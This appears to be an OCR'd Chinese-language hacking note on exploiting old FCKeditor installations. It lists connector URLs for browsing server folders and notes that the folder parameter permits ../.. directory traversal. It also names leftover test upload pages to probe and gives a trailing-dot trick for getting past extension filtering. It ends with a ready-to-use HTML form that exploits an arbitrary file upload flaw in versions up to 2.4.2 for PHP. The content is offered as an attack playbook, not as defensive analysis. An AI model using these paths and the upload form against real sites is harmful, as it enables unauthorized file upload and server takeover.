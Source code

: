     FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
    
    FCKeditor/editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/asp/connector.asp
    
    FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://www.site.com%2Ffckeditor%2Feditor%2Ffilemanager%2Fconnectors%2Fphp%2Fconnector.php (ver:2.6.3 测试通过)
    
        

    JSP 版：
    
    FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/jsp/connector.jsp
    
    注意红色部分修改为FCKeditor 实际使用的脚本语言，蓝色部分可以自定义文
    
    件夹名称也可以利用../..目录遍历，紫色部分为实际网站地址。
    
        

    FCKeditor 中test 文件的上传地址
    
    FCKeditor/editor/filemanager/browser/default/connectors/test.html
    
    FCKeditor/editor/filemanager/upload/test.html
    
    FCKeditor/editor/filemanager/connectors/test.html
    
    FCKeditor/editor/filemanager/connectors/uploadtest.html
    
        

    一般很多站点都已删除_samples 目录，可以试试。
    
    FCKeditor/editor/fckeditor.html 不可以上传文件，可以点击上传图片按钮再选择浏览服务器即可跳转至可上传文件页。
    
        

参考文章：

    https://cloud.tencent.com/developer/news/210677
    
        

* * *

##### 上传的思路

**Version 2.2 版本**

Apache+linux 环境下在上传文件后面加个.突破！测试通过

**Version <=2.4.2 For php**

在处理PHP 上传的地方并未对Media 类型进行上传文件类型的控制，导致用户上传任意文件！将以下保存为html文件，修改action地址

    <form  enctype="multipart/form-data"
    action="http://www.site.com/FCKeditor/editor/filemanager/upload/php/upload.php?Type=Media" 
    
    method="post">Upload a new file:<br>
    <input type="file" name="NewFile" size="50"><br>
    <input  type="submit" value="Upload">
    </form>
    
